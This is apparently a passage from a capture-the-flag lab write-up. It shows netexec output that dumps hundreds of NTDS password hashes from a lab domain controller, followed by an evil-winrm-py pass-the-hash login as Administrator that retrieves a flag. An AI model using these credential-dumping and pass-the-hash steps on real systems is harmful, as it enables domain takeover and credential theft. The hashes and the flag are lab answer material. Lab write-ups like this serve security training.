SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gareth.Newton:1212:aad3b435b51404eeaad3b435b51404ee:28e4c3ac363d190f4f8df412bda689aa:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Damien.Hartley:1213:aad3b435b51404eeaad3b435b51404ee:1dba2423724c3b72e9ff800ae4555e0d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Diane.Carroll:1214:aad3b435b51404eeaad3b435b51404ee:3c27dcc433735ccfb496183c9b8a0e77:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Wendy.French:1215:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Victor.Jenkins:1216:aad3b435b51404eeaad3b435b51404ee:9bef6688e99ed14ebd02af162d637394:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Joyce.Johnson:1217:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Josh.Wilson:1218:aad3b435b51404eeaad3b435b51404ee:aa2a0297476db39ce1259cdebc09f33f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kathleen.Walker:1219:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Joseph.Carroll:1220:aad3b435b51404eeaad3b435b51404ee:3e657e1ba47e72dcc98b8ef22e6c94ee:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Abigail.Wallace:1221:aad3b435b51404eeaad3b435b51404ee:8e934b34cbdfab24a3c7fd81e93e5b16:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Henry.Adams:1222:aad3b435b51404eeaad3b435b51404ee:1402317cdd95e2fc5a061d7aedd18d2d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Stewart.Armstrong:1223:aad3b435b51404eeaad3b435b51404ee:581e1cf57d1b23a726c926a86183539e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Clare.Preston:1224:aad3b435b51404eeaad3b435b51404ee:98ac592a036af9c1a54e17eb777074f5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Liam.Peters:1225:aad3b435b51404eeaad3b435b51404ee:dc04bc6730e3ff24517721cdbc022f35:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Ross.Scott:1226:aad3b435b51404eeaad3b435b51404ee:6e1ab34a31955aa22d527e5883a8ebc0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Aimee.Elliott:1227:aad3b435b51404eeaad3b435b51404ee:70f63b3ceb67e566cf116c3bd12a8284:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Diana.James:1228:aad3b435b51404eeaad3b435b51404ee:405a4d457c7b82b8ed3e2b831504d967:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Anthony.Thompson:1229:aad3b435b51404eeaad3b435b51404ee:354fb2d5ce2405da932065d3b41eae1c:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Carolyn.Hunt:1230:aad3b435b51404eeaad3b435b51404ee:f8b97ade2948506ed6c577481bb264d5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Hollie.White:1231:aad3b435b51404eeaad3b435b51404ee:13bf076b2cecbe5561e6bafdd08b4e0c:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Judith.Harris:1232:aad3b435b51404eeaad3b435b51404ee:2287ae90d51ba61976db0765b7d7ee0c:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Leanne.McCarthy:1233:aad3b435b51404eeaad3b435b51404ee:a9c09cd095d90031143b0b3429bd73a4:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Zoe.Adams:1234:aad3b435b51404eeaad3b435b51404ee:8f86947ae98683669b49a652037519ea:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gerald.Foster:1235:aad3b435b51404eeaad3b435b51404ee:f653196a5fe2066afab44da784ac0514:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marian.Campbell:1236:aad3b435b51404eeaad3b435b51404ee:26d0b86628f5956bf03e55888d76f6b8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Leslie.Ingram:1237:aad3b435b51404eeaad3b435b51404ee:40280a085df8f53b2a32de21e8f66cc0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sally.Clayton:1238:aad3b435b51404eeaad3b435b51404ee:c60417bc9b17a2e9ce1eb26585b2d8c0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sarah.Bradley:1239:aad3b435b51404eeaad3b435b51404ee:57adace9490af5ccb4c075d913144409:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Frances.Freeman:1240:aad3b435b51404eeaad3b435b51404ee:2a0e42c3007a89c5fcc8c145aa718163:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Tina.Dawson:1241:aad3b435b51404eeaad3b435b51404ee:79e3a91df8b290d236be532c096db862:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Cheryl.Roberts:1242:aad3b435b51404eeaad3b435b51404ee:c55a6b140743f652357a82ec610ea425:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Vincent.Roberts:1243:aad3b435b51404eeaad3b435b51404ee:c0fa7ee32c0eb873c5225cd5968b6470:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gavin.Dixon:1244:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Yvonne.Morris:1245:aad3b435b51404eeaad3b435b51404ee:1a57d4095d350f6c1f1db7f4a9102633:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marion.Evans:1246:aad3b435b51404eeaad3b435b51404ee:bb46b293b27d229cf11af564ef530cec:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lawrence.Stewart:1247:aad3b435b51404eeaad3b435b51404ee:6dc6e2f9b988116501efd9b619bc016f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Daniel.Gibson:1248:aad3b435b51404eeaad3b435b51404ee:5ad78441ae86d5bf843a3fc4ceba80ca:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Keith.Howell:1249:aad3b435b51404eeaad3b435b51404ee:0e6b12f68e171adadb75a8cbb6e1cc29:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Denis.Wood:1250:aad3b435b51404eeaad3b435b51404ee:5686dc74261e457178b742e5c9c4e478:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sophie.Webster:1251:aad3b435b51404eeaad3b435b51404ee:4df13b7830d3504eca1a298b1331ba6a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Katherine.Osborne:1252:aad3b435b51404eeaad3b435b51404ee:f999e6e35395c99c82a6fadc00ed5d0d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Robert.Lewis:1253:aad3b435b51404eeaad3b435b51404ee:2a9ac80b24c17821aaa9ea5a5a241055:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lauren.Young:1254:aad3b435b51404eeaad3b435b51404ee:a23e5813cb0d6c336e6dbcdbda329802:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Martin.James:1255:aad3b435b51404eeaad3b435b51404ee:284684373181f24fb51b1c1ad5ff8534:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Emma.Clark:1256:aad3b435b51404eeaad3b435b51404ee:809c55c236ff67d4e803040938f1dfd6:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kim.Thomas:1257:aad3b435b51404eeaad3b435b51404ee:c184b6882834a720e410d0d1f19ecb35:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Philip.Smith:1258:aad3b435b51404eeaad3b435b51404ee:2bca532ce2d2509b6e7e9bcbdfae0e4a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Owen.Black:1259:aad3b435b51404eeaad3b435b51404ee:be4be89a2dcb409718a41b3bafd48a2b:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Glenn.Rogers:1260:aad3b435b51404eeaad3b435b51404ee:16b9fca5b0a9e070a4b7aac24796dd11:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Robin.Smith:1261:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Naomi.Harris:1262:aad3b435b51404eeaad3b435b51404ee:c84e3f68a97833056f8e8cc9599ad121:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Carolyn.Hughes:1263:aad3b435b51404eeaad3b435b51404ee:86aa5e50ed8398fe0c7ae5f1b13f1a9b:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Denise.Begum:1264:aad3b435b51404eeaad3b435b51404ee:21a5047a3e74537af5881e0d3dab6e1b:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Karen.Moore:1265:aad3b435b51404eeaad3b435b51404ee:681d5631b111d32c6f6c5e1a8e705ee2:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Richard.Lewis:1266:aad3b435b51404eeaad3b435b51404ee:dd56d7cf953268524179e9224601b196:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marcus.Taylor:1267:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jacqueline.Morley:1268:aad3b435b51404eeaad3b435b51404ee:709bb201cb7311a64d43dabd860d0f75:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kyle.Parker:1269:aad3b435b51404eeaad3b435b51404ee:52e67d68b82281dec5cb1ac6c947367d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jane.Taylor:1270:aad3b435b51404eeaad3b435b51404ee:032188c234f8c012b1f51313a469165f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Matthew.Craig:1271:aad3b435b51404eeaad3b435b51404ee:15d6065f4dc4ab36fdbeefc79d7dbd43:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Daniel.Clark:1272:aad3b435b51404eeaad3b435b51404ee:b5e9504fd2281ebbc31fdb14a5a14e28:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jemma.Smith:1273:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Richard.Riley:1274:aad3b435b51404eeaad3b435b51404ee:1a937ff5a91169d167bd0da1c4b4012a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Margaret.Patel:1275:aad3b435b51404eeaad3b435b51404ee:ae09c4f7957fb62197a818ce893a5816:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Anne.Mitchell:1276:aad3b435b51404eeaad3b435b51404ee:43c3eabac0da792cb9d4f7e34c2ba4d0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sophie.Powell:1277:aad3b435b51404eeaad3b435b51404ee:bdfb66713eec013e5ea848e1605df11f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marian.Baldwin:1278:aad3b435b51404eeaad3b435b51404ee:976ea01f4344e1d85e5a5a8c1fa4a06f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Annette.King:1279:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Katy.Jones:1280:aad3b435b51404eeaad3b435b51404ee:a9e43537064023451ef83025fead6963:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Dorothy.Walsh:1281:aad3b435b51404eeaad3b435b51404ee:148af9ef5ddaa409f5bd8d3cb9d1f85a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Mohammed.Ward:1282:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\James.Marshall:1283:aad3b435b51404eeaad3b435b51404ee:cfec0b3613936175218d8844e751861f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Callum.Brookes:1284:aad3b435b51404eeaad3b435b51404ee:78af5f1ce10ad538339ed31cfc551fe5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Amy.Woods:1285:aad3b435b51404eeaad3b435b51404ee:b9da2018a107b229cdf3b4c9ddc243da:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Cameron.White:1286:aad3b435b51404eeaad3b435b51404ee:e6f6099e4c84721a495bde50f431fd93:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Nicole.Harrison:1287:aad3b435b51404eeaad3b435b51404ee:9604c40fcd37e5e201265e35ea4daaa5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Laura.Yates:1288:aad3b435b51404eeaad3b435b51404ee:e77ac91229abd98b330282a0fc4bbcd9:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kim.Lee:1289:aad3b435b51404eeaad3b435b51404ee:0cc08bce358b21a4e4dee935c45a5927:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Nicole.Lloyd:1290:aad3b435b51404eeaad3b435b51404ee:bccf0a6e860b60cb5ab8be89edd89bc8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Mary.Andrews:1291:aad3b435b51404eeaad3b435b51404ee:a6222aa848556b2a2232f1ba8a873f65:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jasmine.Yates:1292:aad3b435b51404eeaad3b435b51404ee:5378f2fdf0dd8a8f7beb218e5f2175c8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Andrea.Davies:1293:aad3b435b51404eeaad3b435b51404ee:b360287cd064c6b2360c2085e84688de:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Russell.Miller:1294:aad3b435b51404eeaad3b435b51404ee:63b4cfd0097f26a6a74f460aa92563d7:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Ben.Brown:1295:aad3b435b51404eeaad3b435b51404ee:3dbace87570d4f5e74b81228c78d4014:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Anthony.Smith:1296:aad3b435b51404eeaad3b435b51404ee:1da3d13df50d2a4e24a092ef5df6fc38:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Russell.Mistry:1297:aad3b435b51404eeaad3b435b51404ee:61cba3d3ef922370b03741e7e22682b0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Laura.Robinson:1298:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Simon.Morris:1299:aad3b435b51404eeaad3b435b51404ee:0d3db2d9bf08b2d11efb2860bdd87849:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Aimee.Knight:1300:aad3b435b51404eeaad3b435b51404ee:375ac5cdaa5f0e01ad466383842db785:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kieran.Parker:1301:aad3b435b51404eeaad3b435b51404ee:705da8767a12e2f7061ce27530afbc61:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Josephine.Evans:1302:aad3b435b51404eeaad3b435b51404ee:db9775bbf11beaff3d56ad6d3779bbbd:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Richard.Hutchinson:1303:aad3b435b51404eeaad3b435b51404ee:a4a1eb6af05d5117528a50095ff65fee:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lucy.Richardson:1304:aad3b435b51404eeaad3b435b51404ee:c90c4dc4ea6039b7eaa5b8efb4672a3a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Karl.Thomas:1305:aad3b435b51404eeaad3b435b51404ee:d67550b2e7afdae37091d187739f25a9:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Henry.Jordan:1306:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Bernard.Turner:1307:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Leslie.Willis:1308:aad3b435b51404eeaad3b435b51404ee:4d7ec9f79477008bbe96d12c5acd5566:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Christopher.Smith:1309:aad3b435b51404eeaad3b435b51404ee:18f25bdd5553f98e38f5534e3170ad54:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Colin.Faulkner:1310:aad3b435b51404eeaad3b435b51404ee:d683ef889ae29da33a65ecedaee862a9:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gerald.Murphy:1312:aad3b435b51404eeaad3b435b51404ee:928ea448d48833562ee2be6c7f83fa56:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jeremy.Austin:1313:aad3b435b51404eeaad3b435b51404ee:ce369a03d22fc23ab09f4027cb317bba:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Fiona.Marshall:1314:aad3b435b51404eeaad3b435b51404ee:6f7cfce257c1b333f02c9194a884f941:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Mohamed.Wright:1315:aad3b435b51404eeaad3b435b51404ee:0b160cd46cc5e2dd3bfe7a946c0412e3:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Stacey.Barrett:1316:aad3b435b51404eeaad3b435b51404ee:6574b5782fc8ec8385be447e8eebe537:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gail.Joyce:1317:aad3b435b51404eeaad3b435b51404ee:f97d6e21364ac1069197d255f2abd9ec:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marilyn.Sanderson:1318:aad3b435b51404eeaad3b435b51404ee:9ed0bc592136f15b389459f9fd89b5a3:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gerard.Thomas:1319:aad3b435b51404eeaad3b435b51404ee:ad7c7d572efe1115accbc71620f2d44f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jack.Smith:1320:aad3b435b51404eeaad3b435b51404ee:85391f332fdaa3ad651cee1fe44aa90b:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Patrick.Ford:1321:aad3b435b51404eeaad3b435b51404ee:e797860ef9c0c6916c17485a9b8ba40e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\client-admin:1332:aad3b435b51404eeaad3b435b51404ee:38006da9f18e6151af19e7ea6ba26459:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\backup-admin:1333:aad3b435b51404eeaad3b435b51404ee:38006da9f18e6151af19e7ea6ba26459:::
SMB         dc03.eu-ifrit.vl 445    DC03             DC03$:1000:aad3b435b51404eeaad3b435b51404ee:c8c0c598e4e07605f8ab198ac73cc2b3:::
SMB         dc03.eu-ifrit.vl 445    DC03             VDI02$:1103:aad3b435b51404eeaad3b435b51404ee:ef717a62d367ae6f2fc19dc06230abb3:::
SMB         dc03.eu-ifrit.vl 445    DC03             DEV05$:1104:aad3b435b51404eeaad3b435b51404ee:b55ac780b551b409627ed4604acb75b5:::
SMB         dc03.eu-ifrit.vl 445    DC03             SQL03$:1105:aad3b435b51404eeaad3b435b51404ee:f29b2d7a0a51793e041c6c8d77adda99:::
SMB         dc03.eu-ifrit.vl 445    DC03             SQL01$:1106:aad3b435b51404eeaad3b435b51404ee:da90d2c6284992f3f98eaee31ae62375:::
SMB         dc03.eu-ifrit.vl 445    DC03             DEV02$:1107:aad3b435b51404eeaad3b435b51404ee:aec1878baf7df6254e5e0b0867d84429:::
SMB         dc03.eu-ifrit.vl 445    DC03             DEV01$:1108:aad3b435b51404eeaad3b435b51404ee:e1271252b29d37804a0755b4da12c947:::
SMB         dc03.eu-ifrit.vl 445    DC03             VDI01$:1109:aad3b435b51404eeaad3b435b51404ee:a24714299d38ee4668dcbfb8ca7a2c27:::
SMB         dc03.eu-ifrit.vl 445    DC03             RAS50014$:1325:aad3b435b51404eeaad3b435b51404ee:f9e0532f45153988279a5f75599f3cb7:::
SMB         dc03.eu-ifrit.vl 445    DC03             RAS50011$:1326:aad3b435b51404eeaad3b435b51404ee:01035198b4f8371ffebd0cda26d9ce2f:::
SMB         dc03.eu-ifrit.vl 445    DC03             RAS50021$:1327:aad3b435b51404eeaad3b435b51404ee:828b52d295f35cc005e1a8e590bfeff8:::
SMB         dc03.eu-ifrit.vl 445    DC03             RAS50005$:1328:aad3b435b51404eeaad3b435b51404ee:249be588ee3e58c92265f9d0e000b4e5:::
SMB         dc03.eu-ifrit.vl 445    DC03             gMSASQLService$:1331:aad3b435b51404eeaad3b435b51404ee:6d1b0fcb8cb5a042774f6505bf8b9faa:::
SMB         dc03.eu-ifrit.vl 445    DC03             BACKUP01$:1336:aad3b435b51404eeaad3b435b51404ee:36d680786e43a9a7716653e55a0b8617:::
SMB         dc03.eu-ifrit.vl 445    DC03             IT-IFRIT$:1324:aad3b435b51404eeaad3b435b51404ee:7d271b85ba0204f6f3fe5fa8ff11c27f:::
SMB         dc03.eu-ifrit.vl 445    DC03             [+] Dumped 230 NTDS hashes to /home/millycash/.nxc/logs/ntds/DC03_dc03.eu-ifrit.vl_2026-04-06_103320.ntds of which 215 were added to the database
SMB         dc03.eu-ifrit.vl 445    DC03             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc03.eu-ifrit.vl 445    DC03             [*] grep -iv disabled /home/millycash/.nxc/logs/ntds/DC03_dc03.eu-ifrit.vl_2026-04-06_103320.ntds | cut -d ':' -f1

```

And grab another flag:

```bash
└─$ evil-winrm-py -i 172.16.41.14 -u Administrator -H d05ff1e30127c8d43e6b1ab5d22454c7
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.41.14:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
cevil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         4/24/2025  11:19 PM             39 flag.txt                                                              
-a----         7/28/2024   8:59 AM           2308 Microsoft Edge.lnk                                                    


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
IFRIT{216dba00f016127766a197a275a3f599}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

I will now move on to the SQL03 aka the last machine in this pool to be hacked.